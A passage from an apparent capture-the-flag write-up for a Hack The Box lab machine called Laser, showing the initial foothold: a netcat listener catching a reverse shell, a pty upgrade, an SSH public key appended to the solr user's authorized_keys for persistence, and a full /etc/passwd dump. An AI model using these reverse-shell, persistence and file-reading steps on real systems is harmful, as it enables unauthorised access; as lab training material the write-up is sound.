 ```python
get_shell()
```

After a lot of trial and error, I got my code to work and set up a netcat listener.  I made my payload a simple callback reverse shell and crossed my fingers.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.201] 36790
python3 -c 'import pty;pty.spawn("/bin/bash")'
solr@laser:~$ id && hostname
uid=114(solr) gid=120(solr) groups=120(solr)
laser
```

I got a connection from the machine on my waiting nc listener!  I quickly upgraded my shell and checked what context I was logged in as.  I was a user named `solr`.  

```text
solr@laser:~$ echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNjkkEoBIEUE1qbriniZITFVwyL5zjbjJopB07xl9UAgAjbkTEx/IfL5xvd6cDNUHmW5KEkXTiNJm3sLBFfloVY=' >> .ssh/authorized_keys
```

Next, I put my public key in the `solr` user's `.ssh` folder so I could log in with a real shell.

```text
solr@laser:/tmp/cypher/.ssh$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
printer:x:997:997::/home/printer:/bin/false
mosquitto:x:112:118::/var/lib/mosquitto:/usr/sbin/nologin
```